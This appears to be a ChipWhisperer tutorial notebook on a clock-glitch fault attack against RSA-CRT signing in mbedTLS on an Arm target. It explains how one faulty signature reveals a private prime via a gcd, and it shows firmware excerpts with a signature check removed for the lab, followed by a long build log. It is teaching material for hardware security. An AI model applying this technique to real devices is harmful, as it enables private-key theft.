 
RSA FaultAttack
===============

This advanced tutorial will demonstrate an attack on RSA signatures that
use the Chinese Remainder Theorem as an optimization. This tutorial will
make use of glitching, so it's recommended that you complete at least
Fault\_1-Introduction\_to\_Clock\_Glitch\_Attacks before attempting this
tutorial. You may also want to install gmpy2 before running this
tutorial, as it makes a later section of the tutorial much faster. Linux
users can install this via their package manager, Mac users via Brew,
and Windows users via the `Unofficial Windows Python
Binaries <https://www.lfd.uci.edu/~gohlke/pythonlibs/>`__.

Additionally, this tutorial has been designed for Arm targets only.
Users of other hardware will likely need to make changes to available
RSA libraries to complete this tutorial.

This attack is was originally detailed in a `1997 paper by Boneh,
Demillo, and
Lipton <https://www.researchgate.net/publication/2409434_On_the_Importance_of_Checking_Computations>`__.
This tutorial draws heavily from a blog post by David Wong, which you
can find
`here <https://www.cryptologie.net/article/371/fault-attacks-on-rsas-signatures/>`__.


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'OPENADC'
    PLATFORM = 'CWLITEARM'

Attack Theory
-------------

We won't cover much about what RSA (there's a `Wikipedia
article <https://en.wikipedia.org/wiki/RSA_(cryptosystem)>`__ for that),
but we will give a quick summary.

-  RSA is a public key crypto system. It can be used in a few different
   ways, but we'll be using it for signing messages in this case. In
   this mode, User A can sign a message using their private information.
   User B can then verify that User A was the one who signed the message
   using publically available information.
-  This means that some information is public, while other information
   is private.
-  Public information includes the public modulus n, and the public
   exponent e
-  Private information includes the private exponent d, as well as p and
   q, which are prime factors of n
-  The public information can be freely shared, but learning any private
   information compromises the whole system

The math of RSA (once you have all the key parts generated) is actually
pretty simple. To sign the message, the following equation can be
applied (with signature s, message m, private exponent d, and public
modulus n):

.. math:: s = m^d({mod}\ n)

To verify a signature, the following equation is used (with signature s,
public exponent e, message m, and public modulus n):

.. math:: s^e = m(mod\ n)

Despite the simplicity of these equations, signing messages in
particular is a very slow operation, with the implementation from
MBEDTLS, a popular crypto library for Arm devices, taking over 12M
cycles for RSA-1024 (and this is with the optimization we make in the
next section). This is because all of the numbers used in these
equations are huge (n and d are 1024 bits long in this case). As you can
imagine, any improvement we can make to the speed of this operation is
very important. It turns out there is a large speed optimization that we
can make.

Chinese Remainder Theorem (CRT)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Instead of computing :math:`s = m^d(mod\ n)`, we can instead break n
into two primes, p and q, such that :math:`n = pq`, then use those to
calculate the signature instead of n. As you might have guessed, p and q
are the same private information we talked about earlier. Bascially, if
we learn either, we'll be able to derive the rest of the private
information fairly easily. We won't go into all the math, but here's the
important operations:

-  Derive :math:`d_p` from d and p and :math:`d_q` from d and q
-  Calculate: :math:`s_1 = m^{d_p}(mod\ p)` and
   :math:`s_2 = m^{d_q}(mod\ q)`
-  Combine :math:`s_1` and :math:`s_2` into :math:`s` via CRT

Since p and q are much smaller than n, creating signatures is much much
faster this way. As such, many popular RSA implementations (including
MBEDTLS) use CRT to speed up RSA.

CRT Attack
~~~~~~~~~~

Suppose that instead of everything going smoothly as above, a fault
happens during the calculation of :math:`s_1` or :math:`s_2` (we'll
assume that the fault was with :math:`s_2` here, which will become
:math:`s^{'}_{2}`). If that happens, the following becomes true (with
faulty signatures :math:`s_2'`, which generates :math:`s'`):

.. math:: s'^e = m(mod\ p) \Rightarrow s'^e - m = 0 (mod\ p)

.. math:: s'^e \neq m(mod\ q) \Rightarrow s'^e - m \neq 0 (mod\ q)

The result of this is that p will be a factor of :math:`s'^e - m`, but q
and n will not be. Since p is also a factor of N, what follows is that:

.. math:: p = gcd(s'^e - m, N)

Thus, if we introduce a fault in the calculation of either :math:`s_1`
or :math:`s_2`, we'll be able to get either q or p, and from there the
rest of the private values!

Firmware
--------

Next, let's take a look at the RSA implementation we're attacking. For
this attack, we'll be using the ``simpleserial-rsa-arm`` project folder.
There's a few files here, but the important one is
``simpleserial-arm-rsa.c``. Open it. As you scroll through, you'll find
all our public/private values. Next, navigate to ``real_dec()``:

.. code:: c

    uint8_t buf[128];
    uint8_t hash[32];
    uint8_t real_dec(uint8_t *pt)
    {
         int ret = 0;

         //first need to hash our message
         memset(buf, 0, 128);
         mbedtls_sha256(MESSAGE, 12, hash, 0);

         trigger_high();
         ret = simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign(&rsa_ctx, NULL, NULL, MBEDTLS_RSA_PRIVATE, MBEDTLS_MD_SHA256, 32, hash, buf);
         trigger_low();

         //send back first 48 bytes
         simpleserial_put('r', 48, buf);
         return ret;
    }

You'll notice that we first hash our message (``"Hello World!"``) using
SHA256. Once this is passed to the signature function, it will be padded
according to the PKCS#1 v1.5 standard. This isn't too important now, but
it will be important later. Next we sign our message using
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()``, then send back the
first 48 bytes of it. We'll be sending the signature back in multiple
chunks to avoid overflowing the CWLite's buffer of 128 bytes via
``sig_chunk_1()`` and ``sig_chunk_2()`` directly below this function.

We'll actually skip over
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()`` here, since most of
the important stuff actually happens in a different function. You should
note, however, that this function has been modified to remove a
signature check, which would need to be bypassed in a real attack.

Next, find the function ``simpleserial_mbedtls_rsa_private()``, a
cleaned up version of ``mbedtls_rsa_private()``, where the signature
calculation actually happens:

.. code:: c

    /*
     * Do an RSA private key operation
     */
    static int simpleserial_mbedtls_rsa_private( mbedtls_rsa_context *ctx,
                     int (*f_rng)(void *, unsigned char *, size_t),
                     void *p_rng,
                     const unsigned char *input,
                     unsigned char *output )

scrolling down a bit, we do indeed find that this function uses CRT to
speed up the calculation:

.. code:: c

        /*
         * Faster decryption using the CRT
         *
         * T1 = input ^ dP mod P
         * T2 = input ^ dQ mod Q
         */
        MBEDTLS_MPI_CHK( mbedtls_mpi_exp_mod( &T1, &T, DP, &ctx->P, &ctx->RP ) );
        MBEDTLS_MPI_CHK( mbedtls_mpi_exp_mod( &T2, &T, DQ, &ctx->Q, &ctx->RQ ) );

You can view more of the firmware if you want, but for now let's build
our firmware and then move over to our python script:


**In [2]:**

.. code:: ipython3

    CRYPTO_TARGET="MBEDTLS"
    CRYPTO_OPTIONS="RSA"
    NANO_FLASH = "NA"
    OPT = "2"
    if SCOPETYPE == "CWNANO":
        NANO_FLASH = "32K" #Need nano pro 32
        OPT = "2"


**In [3]:**

.. code:: bash

    %%bash -s "$PLATFORM" "$CRYPTO_TARGET" "$CRYPTO_OPTIONS" "$NANO_FLASH"
    cd ../hardware/victims/firmware/simpleserial-rsa
    make PLATFORM=$1 CRYPTO_TARGET=$2 CRYPTO_OPTIONS=$3 OPT=2 NANO_FLASH=$4


**Out [3]:**



.. parsed-literal::

    rm -f -- simpleserial-rsa-CWLITEARM.hex
    rm -f -- simpleserial-rsa-CWLITEARM.eep
    rm -f -- simpleserial-rsa-CWLITEARM.cof
    rm -f -- simpleserial-rsa-CWLITEARM.elf
    rm -f -- simpleserial-rsa-CWLITEARM.map
    rm -f -- simpleserial-rsa-CWLITEARM.sym
    rm -f -- simpleserial-rsa-CWLITEARM.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- simpleserial-rsa.s simpleserial-rsa-xmega.s simpleserial-rsa-arm.s simpleserial.s stm32f3_hal.s stm32f3_hal_lowlevel.s stm32f3_sysmem.s rsa.s bignum.s md.s md5.s md_wrap.s sha1.s sha256.s sha512.s ripemd160.s oid.s
    rm -f -- simpleserial-rsa.d simpleserial-rsa-xmega.d simpleserial-rsa-arm.d simpleserial.d stm32f3_hal.d stm32f3_hal_lowlevel.d stm32f3_sysmem.d rsa.d bignum.d md.d md5.d md_wrap.d sha1.d sha256.d sha512.d ripemd160.d oid.d
    rm -f -- simpleserial-rsa.i simpleserial-rsa-xmega.i simpleserial-rsa-arm.i simpleserial.i stm32f3_hal.i stm32f3_hal_lowlevel.i stm32f3_sysmem.i rsa.i bignum.i md.i md5.i md_wrap.i sha1.i sha256.i sha512.i ripemd160.i oid.i
    .
    -------- begin --------
    arm-none-eabi-gcc (GNU Tools for Arm Embedded Processors 7-2018-q2-update) 7.3.1 20180622 (release) [ARM/embedded-7-branch revision 261907]
    Copyright (C) 2017 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: simpleserial-rsa.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa.o.d simpleserial-rsa.c -o objdir/simpleserial-rsa.o 
    .
    Compiling C: simpleserial-rsa-xmega.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa-xmega.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-xmega.o.d simpleserial-rsa-xmega.c -o objdir/simpleserial-rsa-xmega.o 
    .
    Compiling C: simpleserial-rsa-arm.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa-arm.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-arm.o.d simpleserial-rsa-arm.c -o objdir/simpleserial-rsa-arm.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_hal.o.d .././hal/stm32f3/stm32f3_hal.c -o objdir/stm32f3_hal.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_hal_lowlevel.o.d .././hal/stm32f3/stm32f3_hal_lowlevel.c -o objdir/stm32f3_hal_lowlevel.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_sysmem.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_sysmem.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_sysmem.o.d .././hal/stm32f3/stm32f3_sysmem.c -o objdir/stm32f3_sysmem.o 
    .
    Compiling C: .././crypto/mbedtls//library/rsa.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/rsa.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/rsa.o.d .././crypto/mbedtls//library/rsa.c -o objdir/rsa.o 
    .
    Compiling C: .././crypto/mbedtls//library/bignum.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/bignum.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/bignum.o.d .././crypto/mbedtls//library/bignum.c -o objdir/bignum.o 
    .
    Compiling C: .././crypto/mbedtls//library/md.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md.o.d .././crypto/mbedtls//library/md.c -o objdir/md.o 
    .
    Compiling C: .././crypto/mbedtls//library/md5.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md5.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md5.o.d .././crypto/mbedtls//library/md5.c -o objdir/md5.o 
    .
    Compiling C: .././crypto/mbedtls//library/md_wrap.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md_wrap.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md_wrap.o.d .././crypto/mbedtls//library/md_wrap.c -o objdir/md_wrap.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha1.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha1.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha1.o.d .././crypto/mbedtls//library/sha1.c -o objdir/sha1.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha256.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha256.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha256.o.d .././crypto/mbedtls//library/sha256.c -o objdir/sha256.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha512.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha512.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha512.o.d .././crypto/mbedtls//library/sha512.c -o objdir/sha512.o 
    .
    Compiling C: .././crypto/mbedtls//library/ripemd160.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/ripemd160.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/ripemd160.o.d .././crypto/mbedtls//library/ripemd160.c -o objdir/ripemd160.o 
    .
    Compiling C: .././crypto/mbedtls//library/oid.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/oid.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/oid.o.d .././crypto/mbedtls//library/oid.c -o objdir/oid.o 
    .
    Assembling: .././hal/stm32f3/stm32f3_startup.S
